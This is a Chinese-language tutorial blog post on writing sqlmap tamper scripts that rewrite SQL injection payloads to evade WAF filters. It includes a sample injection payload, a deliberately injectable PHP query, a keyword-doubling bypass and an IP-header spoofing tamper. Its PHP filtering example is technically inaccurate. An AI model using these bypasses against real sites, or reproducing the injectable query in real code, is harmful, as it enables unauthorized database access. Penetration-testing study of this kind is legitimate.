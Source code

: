 ```yaml
---
layout: post
title:  "sqlmap-tamper编写指南"
date:   2016-6-06 09:31:40 +0800
categories: Web
---
```

> 注：最近遇到了一些奇奇怪怪的waf，想自己写一些tamper但是发现没有参考材料可以使用，因此写了这篇文章，以方便进行自定义的tamper编写。笔者笔力有限，如有错误，敬请读者们指正。

## 0x00 sqlmap tamper简介

sqlmap是一个自动化的SQL注入工具，而tamper则是对其进行扩展的一系列脚本，主要功能是对本来的payload进行特定的更改以绕过waf。

<!--more-->

## 0x01 一个最小的例子

为了说明tamper的结构，让我们从一个最简单的例子开始

```python
# sqlmap/tamper/escapequotes.py

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload.replace("'", "\\'").replace('"', '\\"')
```

不难看出，一个最小的tamper脚本结构为priority变量定义和dependencies、tamper函数定义。

priority定义脚本的优先级，用于有多个tamper脚本的情况。

dependencies函数声明该脚本适用/不适用的范围，可以为空。

tamper是主要的函数，接受的参数为payload和\*\*kwargs
返回值为替换后的payload。比如这个例子中就把引号替换为了``\\\\'``。

## 0x02 详细介绍

第一部分完成了一个最简单的tamper架构，下面我们进行更详细的介绍

#### tamper函数

tamper是整个脚本的主体。主要用于修改原本的payload。举例来说，如果服务器上有这么几行代码

```php
$id = trim($POST($id),'union');
$sql="SELECT * FROM users WHERE id='$id'";
```

而我们的payload为
```mysql
-8363'  union select null -- -
```

这里因为union被过滤掉了，将导致payload不能正常执行，那么就可以编写这样的tamper

```python
def tamper(payload, **kwargs):
    return payload.replace('union','uniounionn')
```

保存为replaceunion.py，存到sqlmap/tamper/下，执行的时候带上--tamper=replaceunion的参数，就可以绕过该过滤规则


#### dependencies函数

dependencies函数，就tamper脚本支持/不支持使用的环境进行声明，一个简单的例子如下：

```python
# sqlmap/tamper/echarunicodeencode.py

from lib.core.common import singleTimeWarnMessage

def dependencies():
    singleTimeWarnMessage("tamper script '%s' is only meant to be run against ASP or ASP.NET web applications" % os.path.basename(__file__).split(".")[0])

# singleTimeWarnMessage() 用于在控制台中打印出警告信息

```

#### kwargs

在官方提供的47个tamper脚本中，kwargs参数只被使用了两次，两次都只是更改了http-header，这里以其中一个为例进行简单说明

```python
# sqlmap/tamper/vanrish.py

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    headers["X-originating-IP"] = "127.0.0.1"
    return payload
```

这个脚本是为了更改X-originating-IP，以绕过WAF，另一个kwargs的使用出现于xforwardedfor.py，也是为了改header以绕过waf

## 0x3 结语

tamper的编写远不止这些，本文只就其最基本的结构进行探讨。作为sqlmap的扩展，在编写tamper时几乎所有的sqlmap内置的函数、变量都可以使用，本文不一一列出。


## 0x04 附录：部分常数值

```python
# sqlmap/lib/enums.py

class PRIORITY:
    LOWEST = -100
    LOWER = -50
    LOW = -10
    NORMAL = 0
    HIGH = 10
    HIGHER = 50
    HIGHEST = 100


class DBMS:
    ACCESS = "Microsoft Access"
    DB2 = "IBM DB2"
    FIREBIRD = "Firebird"
    MAXDB = "SAP MaxDB"
    MSSQL = "Microsoft SQL Server"
    MYSQL = "MySQL"
    ORACLE = "Oracle"
    PGSQL = "PostgreSQL"
    SQLITE = "SQLite"
    SYBASE = "Sybase"
    HSQLDB = "HSQLDB"

```
